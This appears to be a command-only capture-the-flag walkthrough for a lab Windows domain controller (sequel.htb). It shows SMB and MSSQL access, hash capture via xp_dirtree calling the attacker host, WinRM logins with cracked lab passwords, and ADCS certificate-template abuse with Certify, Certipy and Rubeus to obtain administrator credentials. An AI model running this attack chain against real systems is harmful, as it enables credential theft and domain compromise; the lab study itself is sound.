 ![image](https://github.com/user-attachments/assets/5d7c4776-2792-46dd-890f-24b8d6285e52)![image](https://github.com/user-attachments/assets/9804f07e-0912-450d-a261-07bd7f5f7ac7)![image](https://github.com/user-attachments/assets/6becdeb8-287d-4aa9-82f4-950b24332ba8)```
nmap -sS -sC -sV -T5 -Pn 10.10.11.202
dc.sequel.htb
```
![image](https://github.com/user-attachments/assets/9263ebf5-8f7b-407d-baa3-e3a46e8540af)

```
smbclient -L \\\\10.10.11.202\\
smbclient \\\\10.10.11.202\\Public
```
![image](https://github.com/user-attachments/assets/f31422ee-e143-4d2a-bef8-505127c28203)

```
python3 -m http.server 80
http://10.10.14.6/SQL%20Server%20Procedures.pdf
PublicUser | GuestUserCantWrite1
```
![image](https://github.com/user-attachments/assets/dd949602-8c3c-435d-b04e-0dc1ecb8d7ff)

```
./kerbrute_linux_amd64 userenum --dc 10.10.11.202 -d sequel.htb users_0
```
![image](https://github.com/user-attachments/assets/53c9d8de-3ef7-4c76-a88d-b3c09f6caa53)

```
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202
```
![image](https://github.com/user-attachments/assets/c4f31852-f910-4641-a631-8489f6023ac7)

```
responder -I tun0 -v
EXEC MASTER.sys.xp_dirtree '\\10.10.14.6\test', 1, 1
REGGIE1234ronnie (sql_svc)
```
![image](https://github.com/user-attachments/assets/bb0b8250-4cd0-463a-8fd9-0bd1882b66c2)

![image](https://github.com/user-attachments/assets/eabb3ae2-1343-47d2-8742-7f235c1acd67)

```
crackmapexec winrm 10.10.11.202 -u users_3 -p REGGIE1234ronnie --continue-on-success
evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
```
![image](https://github.com/user-attachments/assets/a62a4cdd-c228-493f-8bde-caa93695ebca)

![image](https://github.com/user-attachments/assets/78b2d28d-f869-4b04-8b55-2ec48b8db114)

```
upload winPEASany.exe
./winPEASany.exe
```
![image](https://github.com/user-attachments/assets/170c7e63-ac22-43db-896d-fae7a896190b)

```
type C:\sqlserver\Logs\ERRORLOG.bak
```
![image](https://github.com/user-attachments/assets/53099c6d-e9cb-4d4a-8606-fa52dea217f3)

![image](https://github.com/user-attachments/assets/cd62b77f-eaad-4fbc-9e40-d95f595cb14e)

```
crackmapexec winrm 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```
![image](https://github.com/user-attachments/assets/bb11ad81-6b7a-4469-a77a-b9f5db898f5a)

```
evil-winrm -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3
```
![image](https://github.com/user-attachments/assets/95b9055c-951e-4a11-855b-ee410f182df7)

```
Download Certify.exe https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_Any
upload Certify.exe
.\Certify.exe find /vulnerable /currentuser
```
![image](https://github.com/user-attachments/assets/291c9e18-5898-42e1-af69-1827741ff159)

```
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator
```
![image](https://github.com/user-attachments/assets/2a436b62-2ab5-48d8-94f7-4b6af84b6493)

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter no password
```
![image](https://github.com/user-attachments/assets/0bde621d-fe4b-493d-9f38-3ece278b7e9b)

```
upload cert.pfx
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx
```
![image](https://github.com/user-attachments/assets/6a4ab877-c5ea-4fef-9ce5-4da8f5eee66a)

```
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /getcredentials /show /nowrap
```
![image](https://github.com/user-attachments/assets/39fbe789-1258-426c-ae50-07de66d154c6)

```
git clone https://github.com/ly4k/Certipy.git
python3 setup.py install
Certipy
```
![image](https://github.com/user-attachments/assets/1bf7e649-bcca-4ca8-9648-5670bfe5b0ed)

```
.\Certify.exe find -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -text -stdout -vulnerable
```
![image](https://github.com/user-attachments/assets/56d22ec3-ab2b-47c9-9ec8-35ea0f2a4c5c)

```
certipy req -u ryan.cooper -p NuclearMosquito3 -target 10.10.11.202 -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
```
![image](https://github.com/user-attachments/assets/9b2a463d-f72f-4a5e-89a2-e829faef9f46)
